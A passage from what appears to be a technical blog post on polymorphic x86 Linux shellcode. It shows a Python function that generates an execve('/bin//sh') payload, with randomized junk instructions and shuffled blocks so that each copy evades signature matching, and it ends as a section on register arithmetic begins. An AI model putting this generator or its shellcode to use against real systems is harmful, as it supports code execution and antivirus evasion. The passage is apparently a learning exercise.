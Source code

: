 {%highlight python%}

def byte_len(array_string):
    return "".join(array_string).count("\\x")

...

def kill_nop_super_dope():

    init_blk =["\\x6a\\x0b\\x58", "\\x31\\xc9", "\\x31\\xd2"];
    setup_blk=["\\x5b" ];

    nop_blk=["\\x90", "\\x83\\xf8\\x$$", "\\x83\\xfb\\x??", "\\x83\\xf9\\x%%", "\\x87\\xdb", "\\x87\\xc9"]

    shuffle(nop_blk)
    n = randint(0, 10); 
    init_nop_blk = nop_blk[0:(n/3)]
    shuffle(nop_blk)
    setup_nop_blk = nop_blk[0:(n*2/3)]


    init_blk.extend(init_nop_blk)

    print init_nop_blk
    print init_blk

    setup_blk.extend(setup_nop_blk)

    shuffle(init_blk);
    shuffle(setup_blk);

    jmp_adj = format(byte_len(setup_blk) + 2, '02x')
    call_adj = format((255 - byte_len(setup_blk) - 6), 'x')

    tmp= "".join(init_blk)+"\\xeb\\x"+str(jmp_adj)+"".join(setup_blk)+"\\xcd\\x80\\xe8\\x"+str(call_adj)+"\\xff\\xff\\xff\\x2f\\x62\\x69\\x6e\\x2f\\x2f\\x73\\x68";

    par = randint(1,255);
    shellcode=tmp.replace("$$", str(format(par, 'x')));
    par = randint(1,255);
    shellcode=shellcode.replace("??", str(format(par, 'x')));
    par = randint(1,255);
    shellcode=shellcode.replace("%%", str(format(par, 'x')));
    return shellcode

{%endhighlight%}

No black magic here. It's the same approach used with NOPs but with some more
instructions having no effect on the program logical flow.

{% asciicast 198400 %}

### Do some math

Last strategy I would use to create polymorphic version of my first execve
variant is to do some math to fill registers with the desired values.

In this payload, we want to achieve the following register status:
